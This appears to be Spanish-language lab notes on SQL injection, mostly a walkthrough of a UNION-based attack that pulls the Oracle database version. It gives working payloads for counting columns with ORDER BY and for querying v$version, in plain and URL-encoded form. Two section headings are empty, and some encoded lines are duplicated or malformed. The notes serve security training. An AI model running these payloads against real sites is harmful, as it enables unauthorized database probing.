 # Vulnerabilidad de inyección SQL en la cláusula WHERE que permite la recuperación de datos ocultos


# Vulnerabilidad de inyección SQL que permite omitir el inicio



# Ataque de inyección SQL, consulta del tipo y versión de la base de datos en Oracle

- Se intercepta la solicitud que filtra los productos por categoría y se modifica el parámetro ‘category’.
- Primero se determina cuántas columnas devuelve la consulta y cuáles aceptan datos de tipo texto. Esto es necesario para que el ataque UNION funcione correctamente.
- Una vez identificadas las columnas, se utiliza una inyección que consulta la tabla ‘v$version’, propia de Oracle, para obtener el valor del campo ‘BANNER’, que contiene información sobre la versión de la base de datos

Descubrir cuantas columnas tiene la consulta

**Se puede saber usando la propiedad order by numero_columna**

- order by 3
- order by 4
- etc

**Ejemplo**

filter?category=Lifestyle' order by 2 -- - 

filter?category=Lifestyle%27%20order%20by%202%20--%20- 

**Concantenar Select ORACLE** 

Lifestyle' union SELECT 'a','version' FROM dual -- -

Lifestyle%27%20union%20SELECT%20%27a%27,%27version%27%20FROM%20dual%20--%20-

Lifestyle%27%20union%20SELECT%20%27a%27,%27version%27%20FROM%20dual%20--%20-

Lifestyle%27%20union%20SELECT%20%27a%27,version20FROM%20V$VERSION%20--%20-

Lifestyle' union SELECT 'a',banner FROM v$version -- -

SELECT version FROM V$VERSION

SELECT%20version%20FROM%20V$VERSION

## Solucion

Lifestyle' union SELECT 'a',banner FROM v$version -- -

filter?category=Lifestyle%27%20union%20SELECT%20%27a%27,banner%20FROM%20v$version%20--%20-
